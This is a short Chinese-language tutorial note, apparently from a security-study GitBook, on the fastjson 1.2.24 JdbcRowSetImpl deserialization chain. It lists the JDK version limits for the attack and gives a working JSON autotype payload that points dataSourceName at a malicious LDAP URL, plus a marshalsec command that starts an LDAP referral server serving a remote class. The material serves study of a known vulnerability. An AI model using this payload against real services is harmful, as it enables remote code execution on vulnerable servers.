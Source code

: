 # fastjson-1.2.24

* ## **JdbcRowSetImpl**

上文的`TemplatesImpl`链存在严重限制，即`JSON.parse()`需要开启`Feature.SupportNonPublicField`

`JdbcRowSetImpl`链是基于JNDI+RMI或JDNI+LADP进行攻击，会有一定的JDK版本限制。

> RMI利用的JDK版本≤ JDK 6u132、7u122、8u113
>
> LADP利用JDK版本≤ 6u211 、7u201、8u191

`com.sun.rowset.JdbcRowSetImpl`

![image-20230124160335716](../.gitbook/assets/image-20230124160335716.png)

当`conn == null`时，调用`connect()`

![image-20230124161149763](../.gitbook/assets/image-20230124161149763.png)

经典的`(new InitialContext()).lookup()`，那么只要dataSourceName设为恶意远程RMI服务或ldap服务即可。

> { 
>
> ​	"@type":"com.sun.rowset.JdbcRowSetImpl",
>
> ​	"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }

利用marshalsec开启ldap服务

> java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#calc 8099

![image-20230124180853913](../.gitbook/assets/image-20230124180853913.png)